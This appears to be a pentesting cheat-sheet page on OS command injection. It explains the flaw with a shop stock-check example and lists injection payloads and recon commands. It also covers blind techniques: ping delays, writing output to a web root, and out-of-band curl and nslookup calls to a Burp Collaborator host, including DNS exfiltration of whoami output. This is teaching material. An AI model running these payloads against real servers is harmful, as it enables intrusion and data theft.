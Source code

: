 ```yaml
---
title: Command Injection
category: Web
order: 9
---
```


# Injecting OS Commands

OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data. 

Example:

A shopping application lets the user view whether an item is in stock in a particular store. This information is accessed via a URL: 

```
https://example.com/stockStatus?productID=381&storeID=29
```

To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments: 

```
python3 stockreport.py 381 29
```

If the application implements no defenses against OS command injection, an attacker could submit the following input to execute an arbitrary command: 

```
& echo aiwefwlguh &
```

Final command:

```
python3 stockreport.py & echo aiwefwlguh & 29
```

## Typicall payloads

```
;id
& id &
|| id || 
$(id)
| id |
`id`
0x0a id 0x0a
\n id
```

## Useful Commands

|   **Linux**   |  **Windows** | **Description**     |
|:-------------:|:------------:|---------------------|
|     whoami    |    whoami    | Current user        |
|    uname -a   |      ver     | OS Version          |
|    ifconfig   |   ipconfig   | Network config      |
| netstat -tlpn | netstat -ano | Network connections |
|     ps -ef    |   tasklist   | Processes           |

# Blind Command Injection

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required. 

## Using Time Delays

The `ping` command is a good way to exploit it because we can specify the number of ICMP packets to send. This enable us to control the time taken for the command to run.

```
& ping -c 10 127.0.0.1 &
```

## Redirecting the output

We can redirect the output from the injected command into a file.

```
& whoami > /var/www/whoami.txt &
```

Finally if we achieved to redirect the output to a directory which is available on the web.

```
https://example.com/whoami.txt
```

## Out-of-band (OAST)

We can trigger an out-of-band network interaction with a system we control such as ICMP, HTTP or DNS.

> **Note**: Internet connection needed.


```
& curl http://burp-collaborator.oastify.com/rce &
& dig burp-collaborator.oastify.com &
& nslookup burp-collaborator.oastify.com &
```

we can use these channels to easily exfiltrate data:

```
& nslookup `whoami`.burp-collaborator.oastify.com &
```
